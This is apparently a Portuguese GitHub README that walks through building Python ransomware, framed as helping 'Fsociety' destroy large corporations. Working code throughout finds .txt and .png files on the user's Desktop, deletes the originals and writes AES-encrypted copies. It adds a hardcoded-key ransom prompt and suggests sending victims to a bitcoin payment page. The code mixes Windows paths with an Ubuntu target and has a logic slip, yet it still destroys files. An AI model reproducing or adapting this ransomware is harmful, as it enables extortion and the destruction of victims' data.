 # Ransomware

Venha ajudar a Fsociety criando novos ransomwares para destruirmos as grande corporações.

1° passo:
Baixe todas os módulos python que vamos utilizar, depois leia brevemente a documentação para ter noção do que está acontecendo. 

Instalação:

```jsx
pip install "módulo"
```

Módulos utilizados:

```jsx
import os
import glob
import time
import pyaes
from pathlib import Path
```

os:  Este módulo fornece uma maneira simples de usar funcionalidades que são dependentes de sistema operacional. Se você quiser ler ou escrever um arquivo.

glob: O módulo glob encontra todos os nomes de caminho que correspondem a um padrão especificado de acordo com as regras usadas pelo shell Unix.

time: Esse módulo provê várias funções relacionadas à tempo.

pyaes: O módulo pyaes gera uma criptografia baseada em AES.

pathlib: Este módulo oferece classes que representam caminhos de sistema de arquivos com semântica apropriada para diferentes sistemas operacionais.

2° passo:

Criar uma variável que vai definir o tipo de arquivo que você vai criptografar durante o ataque.

```jsx
lista_arq = ["*.txt", "*.png"] 
```

3° passo:

Definir a pasta que o pathlib vai começar a vasculhar os arquivos.

```jsx
try:
    desktop = Path.home() / "Desktop"
except Exception:
    pass

os.chdir(desktop)
# Altera o diretório de trabalho atual para path.
```

4° passo:

Fazer uma função para criptografar os arquivos

```jsx
def criptografando():
    for files in lista_arq: 
		#for para passar por todos os arquivos e para nos que batem com lista_arq
        for format_file in glob.glob(files):
				#Retorna uma lista nomes de caminho que correspondem a pathname
            print(format_file)
            f = open(f'{desktop}\\{format_file}', 'rb')
            file_data = f.read()
            f.close()
						#abre o pasta e le os arquivos em Binario

            os.remove(f'{desktop}\\{format_file}')
						# deleta o arquivo encontrado 
            key = b"1ab2c3e4f5g6h7i8"
						# define a chave de criptografia como 16 bytes
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)

            # Salvando arquivo novo (.ransomcrypter)

            new_file = format_file + ".ransomcrypter"
            new_file = open(f'{desktop}\\{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
```

5° passo:

Fazer uma função de decriptografia:

```jsx
def descrypt(decrypt_file):
    try:
        for file in glob.glob('*.ransomcrypter'):

            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes  # 16 bytes key - change for your key
            daes = pyaes.AESModeOfOperationCTR(dkey)
            decrypt_data = daes.decrypt(file_data)

            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]  # Path to drop file

            dnew_file = open(f'{desktop}\\{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida')
```

6° passo:

Definir a forma como você vai receber o dinheiro para dar a chave de decriptografia para a vitima.

```jsx
if __name__ == '__main__':
    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':
            descrypt(key)
            for del_file in glob.glob('*.ransomcrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida!!!')
```

Sugestões 

Módulos: 

```jsx
webbrowser
você pode direcionar direto para um site de bitcoin com o codigo da sua carteira
de bitcoin, facilitando para a vitima pagar o "resgate" de dados
```

Cenário:
O código foi pensado para criptografar todos os arquivos na área de trabalho de maquinas com sistema operacional ubuntu, pois usuários comuns costumam salvar tudo na área de trabalho.